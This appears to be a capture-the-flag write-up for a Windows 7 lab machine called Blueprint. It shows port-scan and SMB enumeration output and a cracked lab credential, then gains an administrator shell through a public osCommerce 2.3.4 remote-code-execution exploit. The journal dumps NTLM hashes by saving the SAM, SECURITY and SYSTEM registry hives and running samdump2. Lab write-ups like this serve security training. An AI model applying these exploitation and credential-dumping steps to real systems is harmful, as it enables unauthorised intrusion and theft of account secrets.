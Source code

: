 **Hostname:** `BLUEPRINT`

**OS:** Windows 7

**Users:**
```
Lab
```

**Credentials:**
```
Lab:googleplus
```

===============================================================

## Port Scan:

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-30T10:50:22
|_  start_date: 2025-05-30T10:41:52
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:ba:ce:fe:ba:b5 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -29m01s, deviation: 34m37s, median: -9m02s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-30T11:50:22+01:00

```

## Recon:

### SMB:

**enum4linux:**

```
Nbtstat Information for 10.10.91.33:

Looking up status of 10.10.91.33
	BLUEPRINT       <00> -         B <ACTIVE>  Workstation Service
	WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	BLUEPRINT       <20> -         B <ACTIVE>  File Server Service
	WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
	WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

	MAC Address = 02-BA-CE-FE-BA-B5


Share Enumeration on 10.10.91.33:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
	Windows         Disk      

[+] Attempting to map shares on 10.10.91.33

//10.10.91.33/ADMIN$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.91.33/C$	Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_INVALID_PARAMETER listing \*
//10.10.91.33/IPC$	Mapping: N/A Listing: N/A Writing: N/A
//10.10.91.33/Users	Mapping: OK Listing: OK Writing: N/A
//10.10.91.33/Windows	Mapping: OK Listing: DENIED Writing: N/A

Password Policy Information for 10.10.91.33:

[+] Attaching to 10.10.91.33 using anonymous

[+] Trying protocol 139/SMB...

	[!] Protocol failed: Cannot request session (Called Name:10.10.91.33)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

	[+] BLUEPRINT
	[+] Builtin

[+] Password Info for Domain: BLUEPRINT

	[+] Minimum password length: None
	[+] Password history length: None
	[+] Maximum password age: Not Set
	[+] Password Complexity Flags: 000000

		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0

	[+] Minimum password age: None
	[+] Reset Account Lockout Counter: 30 minutes 
	[+] Locked Account Duration: 30 minutes 
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: Not Set```
```

**Anonymous login:**

```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$                            Remote IPC
Users           READ            
Windows
```

### Web Enumeration:

**Vulnerable CMS on port 8080:**
Port 8080 is an HTTP server running an oscommerce 2.3.4 CMS which is vulnerable to Unauthenticated Remote Code Execution by injecting a PHP payload into the db_database parameter of the install.php and read the system command output from configure.php.
https://www.exploit-db.com/exploits/50128

## Foothold / Privilege Escalation:

### Initial Foothold:

After enumerating and manual inspection of port 8080 I found that the server was running a vulnerable version of the OScommerce CMS specifically version 2.3.4, which is vulnerable to an Unauthenticated Remote Code Execution vulnerability.

![CMS_directory](../pictures/blueprint/CMS_directory.png)

I found a working script on the exploit-db.com site and used it's syntax to get a shell.
`python exploit.py http://$IP:8080/oscommerce2.3.4/catalog/`

![exploit_db_page](../pictures/blueprint/exploit_db_code.png)

![exploit_execute](../pictures/blueprint/exploit_run.png)

---

### Privilege Escalation:

As I ran the exploit and got a shell, I ran `whoami` and found that the RCE exploit
gives an Administrator shell. I could just into the Administrator directory and extract the root flag.

## Journal:
### User NTLM Hashes:
- Located in registry keys SAM, SECURITY and SYSTEM
I dumped the hashes using reg.exe:\
`reg.exe save hklm\sam SAM`\
`reg.exe save hklm\security SECURITY`\
`reg.exe save hklm\system SYSTEM`
- This saved the registry keys to my current working directory

![hash_registry_files_extracting](../pictures/blueprint/hash_registry_extract.png)

To dump the hashes out of the registry files I used a tool called '**samdump2'**:
```
$ samdump2 SYSTEM SAM
Administrator:500:...
Guest:501:...
Lab:1000:...
```

![hash_registry_dump](../pictures/blueprint/hash_dump.png)